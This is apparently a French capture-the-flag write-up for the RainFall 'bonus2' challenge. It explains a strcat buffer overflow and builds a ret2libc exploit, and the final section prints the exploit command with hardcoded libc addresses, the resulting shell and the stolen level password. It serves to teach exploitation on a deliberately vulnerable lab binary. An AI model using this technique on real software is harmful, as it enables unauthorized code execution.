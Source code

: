 #### Etape 1 : Décompilation

Le bianire appelle la variable d'environnement LANG et print en fonction de celle-ci une string associé.
Avant de print cette variable le binaire effectue un strcat de la string avec une autre variable globale qui pointe sur une adresse de la stack.

#### Etape 2 : Informations

Lors du strcat le buffer destinataire fait 40 octets.
Si l'on copie 40 caractères et ainsi on ne met plus de '\0' à la fin, la string contiendra les caractères du 2e argument du programme.

#### Etape 3 : Objectif

L'objectif sera donc d'écrire dans le premier argument 40 caractères puis dans le second de faire en sorte d'éxécuter un shell.
Après avoir tenter d'ajouter un shellcode sans succès nous avons tentés de reproduire un ret2libc.
Celui ci nécessite d'appeler le pointeur de la fonction system, d'y ajouter ensuite un pointeur vers une fonction, c'est necessaire pour spécifier dans quel fonction retourner après l'appel a system. Pour finir ajouter une adresse qui correspond a la chaine de caractères que l'on souhaite éxécuter.

#### Etape 4 : Execution 

```bash
bonus2@RainFall:~$ ./bonus2 python -c 'print "A"*40' python -c 'print "A" * 18 + "\x60\xb0\xe6\xb7" + "\x8a\x84\x04\x08" + "\x58\xcc\xf8\xb7"'
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`�淊X��
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```